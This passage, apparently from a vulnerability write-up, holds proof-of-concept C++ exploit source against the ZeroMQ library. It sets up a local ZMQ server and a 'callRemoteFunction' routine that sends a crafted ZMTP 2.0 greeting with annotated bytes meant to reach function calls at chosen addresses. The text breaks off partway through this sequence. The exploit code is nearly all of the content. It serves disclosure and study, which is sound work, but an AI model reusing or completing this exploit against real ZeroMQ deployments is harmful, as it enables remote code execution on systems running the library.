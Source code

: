 The following is a self-exploit, that demonstrates the exploit flow as explained above.

#include <netinet/in.h>
#include <arpa/inet.h>
#include <zmq.hpp>
#include <string>
#include <iostream>
#include <unistd.h>
#include <thread>
#include <mutex>

class Thread {
    public:
    Thread() : the_thread(&Thread::ThreadMain, this)
    { }
    ~Thread(){
    }
    private:
    std::thread the_thread;
    void ThreadMain() {
        zmq::context_t context (1);
        zmq::socket_t socket (context, ZMQ_REP);
        socket.bind ("tcp://*:6666");

        while (true) {
            zmq::message_t request;

            // Wait for next request from client
            try {
                socket.recv (&request);
            } catch ( ... ) { }
        }
    }
};

static void callRemoteFunction(const uint64_t arg1Addr, const uint64_t arg2Addr, const uint64_t funcAddr)
{
    int s;
    struct sockaddr_in remote_addr = {};
    if ((s = socket(AF_INET, SOCK_STREAM, 0)) == -1)
    {
        abort();
    }
    remote_addr.sin_family = AF_INET;
    remote_addr.sin_port = htons(6666);
    inet_pton(AF_INET, "127.0.0.1", &remote_addr.sin_addr);

    if (connect(s, (struct sockaddr *)&remote_addr, sizeof(struct sockaddr)) == -1)
    {
        abort();
    }

    const uint8_t greeting[] = {
        0xFF, /* Indicates 'versioned' in zmq::stream_engine_t::receive_greeting */
        0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, /* Unused */
        0x01, /* Indicates 'versioned' in zmq::stream_engine_t::receive_greeting */
        0x01, /* Selects ZMTP_2_0 in zmq::stream_engine_t::select_handshake_fun */
        0x00, /* Unused */
    };
    send(s, greeting, sizeof(greeting), 0);
